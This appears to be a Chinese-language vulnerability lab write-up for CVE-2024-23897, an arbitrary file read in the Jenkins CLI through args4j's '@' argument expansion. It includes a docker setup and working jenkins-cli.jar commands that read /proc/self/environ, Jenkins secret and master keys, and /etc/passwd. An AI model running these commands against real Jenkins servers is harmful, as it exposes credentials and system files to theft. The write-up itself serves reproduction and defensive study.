

Jenkins CLI 接口任意文件读取漏洞（CVE-2024-23897）¶
Jenkins是一个开源的自动化服务器。
Jenkins使用args4j来解析命令行输入，并支持通过HTTP、Websocket等协议远程传入命令行参数。args4j中用户可以通过@字符来加载任意文件，这导致攻击者可以通过该特性来读取服务器上的任意文件。
该漏洞影响Jenkins 2.441及以前的版本。
参考链接：
- https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314
- https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw
漏洞环境¶
执行如下命令启动一个Jenkins server 2.441：
docker compose up -d
服务启动后，访问http://your-ip:8080/即可查看到Jenkins登录页面，默认的管理员帐号密码为admin和vulhub。
漏洞复现¶
利用该漏洞可以直接使用官方提供的命令行客户端，在http://localhost:8080/jnlpJars/jenkins-cli.jar下载。
使用该工具读取目标服务器的/proc/self/environ文件，可以找到Jenkins的基础目录，JENKINS_HOME=/var/jenkins_home：
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"

然后，可在该目录下读取敏感文件，如secrets.key or master.key（匿名情况下，只能通过命令行的报错读取文件的第一行）：
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"

java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"

因为开启了“匿名用户可读”选项，你也可以直接使用connect-node命令读取完整文件内容：
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"